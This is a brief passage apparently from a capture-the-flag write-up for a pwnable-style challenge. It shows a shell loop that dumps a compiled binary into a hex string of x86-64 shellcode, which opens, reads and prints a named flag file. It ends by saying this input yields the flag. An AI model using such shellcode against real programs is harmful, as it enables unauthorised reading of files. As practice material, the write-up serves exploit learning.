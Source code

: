 ```bash
$ for i in $(objdump -d shell | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$') ; do echo -n "\\x$i" ; done
\x48\x89\xe5\x48\xc7\xc3\x64\x00\x00\x00\x48\x29\xdc\xeb\x3e\x5f\xbe\x00\x00\x00\x00\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x89\xc7\x48\x8d\x75\x9c\x89\xda\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\x48\x8d\x75\x9c\x89\xda\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x8b\x04\x25\x80\x00\x00\x00\x0f\x05\xe8\xbd\xff\xff\xff\x74\x68\x69\x73\x5f\x69\x73\x5f\x70\x77\x6e\x61\x62\x6c\x65\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x65\x61\x73\x65\x5f\x72\x65\x61\x64\x5f\x74\x68\x69\x73\x5f\x66\x69\x6c\x65\x2e\x73\x6f\x72\x72\x79\x5f\x74\x68\x65\x5f\x66\x69\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x73\x5f\x76\x65\x72\x79\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x6e\x67
```

We can now input this to the program and get the flag.
